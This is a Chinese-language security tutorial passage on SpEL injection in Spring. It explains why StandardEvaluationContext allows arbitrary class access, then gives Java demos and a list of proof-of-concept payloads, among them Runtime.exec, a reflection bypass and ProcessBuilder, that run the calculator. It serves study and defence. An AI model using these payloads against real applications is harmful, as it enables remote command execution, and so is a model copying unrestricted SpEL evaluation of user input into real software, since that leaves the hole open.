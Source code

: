 ### 漏洞原理  
`SimpleEvalulationContext`和`StandardEvalulationContext`是SpEL提供的两个`EvalulationContext`：  
- SimpleEvaluationContext：针对不需要SpEL语言语法的全部范围并且应该受到有意限制的表达式类别，公开SpEL语言特性和配置选项的子集  
- StandardEvalulationContext：公开全套SpEL语言功能和配置选项。可以使用它来指定默认的根对象并配置每个可用的评估相关策略  
`SimpleEvluationContext`旨在仅支持SpEL语言语法的一个子集，不包括Java类型引用、构造函数和bean引用；而`StandardEvaluationContext`是支持全部SpEL语法的。  
由前面知道，SpEL表达式是可以操作类及其方法的，可以通过类类型表达式`T(Type)`来调用任意类方法。这是因为在不指定`EvaluationContext`的情况下默认采用的是`StandardEvaluationContext`，而它包含了`SpEL`的所有功能，在允许用户控制输入的情况下可以成功造成任意命令执行。  
如下  
```java  
public class BasicCalc {    
    public static void main(String[] args) {    
        String spel = &#34;T(java.lang.Runtime).getRuntime().exec(\&#34;open -a Calculator\&#34;)&#34;;    
        ExpressionParser parser = new SpelExpressionParser();    
        Expression expression = parser.parseExpression(spel);    
        System.out.println(expression.getValue());    
    }    
}  
```  
### 通过反射的方式进行SpEL注入  
漏洞原理是调用任意类，所以可以通过反射的形式  
```java  
package org.example.springspel.starer;    
    
import org.springframework.expression.Expression;    
import org.springframework.expression.ExpressionParser;    
import org.springframework.expression.spel.standard.SpelExpressionParser;    
    
public class ReflectBypass {    
    public static void main(String[] args) {    
        String spel=&#34;T(String).getClass().forName(\&#34;java.lang.Runtime\&#34;).getRuntime().exec(\&#34;open -a Calculator\&#34;)&#34;;    
        ExpressionParser parser = new SpelExpressionParser();    
        Expression expression = parser.parseExpression(spel);    
        System.out.println(expression.getValue());    
    }    
}  
```  
### 基础POC&amp;Bypass整理  
各种POC  
```java  
// PoC原型  
   
// Runtime  
T(java.lang.Runtime).getRuntime().exec(&#34;calc&#34;)  
T(Runtime).getRuntime().exec(&#34;calc&#34;)  
   
// ProcessBuilder  
new java.lang.ProcessBuilder({&#39;calc&#39;}).start()  
new ProcessBuilder({&#39;calc&#39;}).start()  
```  
用ProcessBuilder来进行命令执行的代码如下  
```java  
public class ProcessBuilderBypass {    
    public static void main(String[] args) {    
        String spel = &#34;new java.lang.ProcessBuilder(new String[]{\&#34;calc\&#34;}).start()&#34;;    
        ExpressionParser parser = new SpelExpressionParser();    
        Expression expression = parser.parseExpression(spel);    
        System.out.println(expression.getValue());    
    }    
}  
```